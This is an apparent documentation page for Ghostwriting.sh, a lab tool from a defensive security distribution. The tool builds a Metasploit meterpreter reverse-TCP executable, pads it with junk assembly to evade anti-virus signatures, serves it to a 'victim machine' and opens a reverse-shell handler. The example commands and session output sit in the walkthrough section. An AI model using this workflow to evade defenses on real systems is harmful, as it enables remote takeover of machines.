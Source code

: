 
Ghostwriting.sh
===============

Description
-----------
Ghostwriting is a method of anti-virus bypass utilizing binary deconstruction, insertion of arbitrary assembly code, and reconstruction.
We will make use of built in metasploit tools to perform the actions listed above.  Ghostwriting.sh is a tool used to automate the process.

MITRE Shield
------------

Associated MITRE ATT&CK techniques:
* T1562 - Impair Defenses
* T1211 - Exploitation for Defense Evasion
* T1587 - Develop Capabilities

Applicable MITRE Shield techniques to counter:

Ghostwriting assists adversaries in developing resources they can leverage later on in an attack lifecycle. MITRE Shield does not currently have any capabilities for detecting or deceiving this activity, though it does have capabilities that can be used once the resource is actually utilized against the victim or publicly available.

* [DTE0017](https://shield.mitre.org/techniques/DTE0017) - Decoy System
* [DTE0022](https://shield.mitre.org/techniques/DTE0022) - Isolation
* [DTE0018](https://shield.mitre.org/techniques/DTE0018) - Detonate Malware

Install Location
----------------

`/opt/ghostwriting/`

Usage
-----

Ghostwriting.sh is quite easy to use.  Simply change directory to the install location,
run the script, and follow the prompts.

Let me show you an example.

Video Walkthrough
-----------------

<iframe src="https://onedrive.live.com/embed?cid=8D6C4317A39E3D29&resid=8D6C4317A39E3D29%2155674&authkey=AFzauuwLy7HXj-M" width="320" height="179" frameborder="0" scrolling="no" allowfullscreen sandbox="allow-scripts allow-pointer-lock allow-forms allow-same-origin"></iframe>

Example 1: Obfuscating an executable with Ghostwriting.sh
---------------------------------------------------------

Let's first launch the script

`~$` **`cd /opt/ghostwriting/`**

`/opt/ghostwriting$` **`sudo ./ghostwriting.sh`**

Ghostwriting will first download and install any missing gems it may need.  It will then create a
meterpreter reverse tcp binary ready to connect back to your machine's private IP address.
Next it will disassemble that executable, and insert junk code as a form of signature evasion.
Finally it will reassemble the binary with the junk code inside, and open a webserver so you can
transfer the file to your victim machine.

        ****************************************************
        Opening webserver on 192.168.27.171:8000 for file transfer
        Ctrl+C to continue after file transfer
        ****************************************************
        Serving HTTP on 0.0.0.0 port 8000 ...

On your victim machine, open a web browser, and navigate to the ip address of your ADHD machine on port 8000.
You should see two files.  Click to download "EveryVillainIsLemons.exe".

![Downloads in Chrome](Ghostwriting.sh_files/downloads.PNG)

Here is the moment of truth, depending on your AV this specific file may or may not be detected
and block upon download (or later upon execution).  If you need to, go ahead and disable your AV's
real-time protection.  This script is a demonstration tool more than anything.  It can however be
modified to be hyper effective.

Once you have the file downloaded, go ahead and head over to your terminal in ADHD and
press **`Ctrl + C`** to stop the web server.

Ghostwriting.sh will now ask you if you would like to start the payload handler, tell it yes (y).

        File Transfer Complete, probably...
        Would you like to start the handler now? [y/N]
        y
        Starting Handler
        LHOST => 192.168.27.171
        LPORT => 8080
        [*] Started reverse handler on 192.168.27.171:8080
        [*] Starting the payload handler...

It will then launch metasploit's reverse shell handler.

To create a session, back on your victim machine, simply run the executable file "EveryVillainIsLemons.exe"

The reverse handler on ADHD should receive the incoming connection and launch a session for you.

        [*] Sending state (769536 bytes) to 192.168.27.1
        [*] Meterpreter session 1 opened (192.168.27.171:8080 -> 192.168.27.1:9832) at 2014-06-30 12:41:33

        meterpreter \>

There you go, happy pwning!


